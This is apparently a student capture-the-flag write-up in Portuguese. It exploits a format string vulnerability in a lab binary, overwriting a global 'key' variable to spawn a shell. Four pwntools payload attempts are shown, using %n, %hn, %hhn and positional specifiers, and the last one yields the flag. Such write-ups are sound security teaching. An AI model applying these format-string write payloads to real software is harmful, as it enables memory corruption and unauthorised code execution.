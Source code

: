 # CTF7 Desafio extra

## Recolha de informação e Reconhecimento da vulnerabilidade

Acaba por ser bastante semelhante ao segundo desafio desta semana 7, apenas o endereço da variável `key` passa a ser `0x804b320`.


## Exploração da vulnerabilidade

### Tentativa 1

Começamos por tentar modificar o valor da variável global `key` usando o `%n`, tal como feito antes no desafio 2:

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x20\xB3\x04\x08%.48871x%n")
p.interactive()
```

Mas correu mal, devido a `\x20` corresponder a um espaço em código ASCII, o que acaba por não permitir a leitura total da string injetada.

### Tentativa 2

Para tentar corrigir isso, fomos tentar escrever no endereço `0x804b31F` (1 byte anterior ao endereço da `key`) o valor de `0xBEEF00`:


```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x1F\xB3\x04\x08%.12513024x%n")
p.interactive()
```

Agora a shell já era lançada só que vinha logo com um timeout, por causa do elevado número de caracteres (mais de 12 milhões) escritos.


### Tentativa 3

Para corrigir tinhamos de baixar o número de caracteres escritos e para isso usamos os format specifiers `%hn` e `%hhn`, que nos permitem dividir o valor `0xBEEF00` em: **(1)** `0xBE` (1 byte, `%hhn`) e **(2)** `0xEF00` (2 bytes, `%hn`):

```py
p.recvuntil(b"here...")
p.sendline(b"AAAA\x21\xB3\x04\x08BBBB\x1F\xB3\x04\x08%.%172x%hhn%60994x%hn")
p.interactive()
```

No entanto ao executar voltamos a não conseguir lançar o terminar agora porque a string injetada ultrapassa os 32 bytes, o espaço alocado ao `buffer`...

### Tentativa 4

Então usamos os format specifiers `%1$hhn` e `%2$hn` para podermos poupar 8 bytes no nosso input - `%m$` permite-nos referenciar o m-ésimo argumento. 

```py
p.recvuntil(b"here...")
p.sendline(b"\x21\xB3\x04\x08\x1F\xB3\x04\x08%.182x%1$hhn%.60994x%2$hn")
p.interactive()
```

Só que como a string continua a ter mais de 32 bytes, passamos `%.182x` e `%.60994x` para `%182x` e `%60994x`, respetivamente:

```py
p.recvuntil(b"here...")
p.sendline(b"\x21\xB3\x04\x08\x1F\xB3\x04\x08%182x%1$hhn%60994x%2$hn")
p.interactive()
```

E assim já conseguimos obter a flag esperada:

<img src="../screenshots/ctf7/flag3.PNG" alt="flag3">
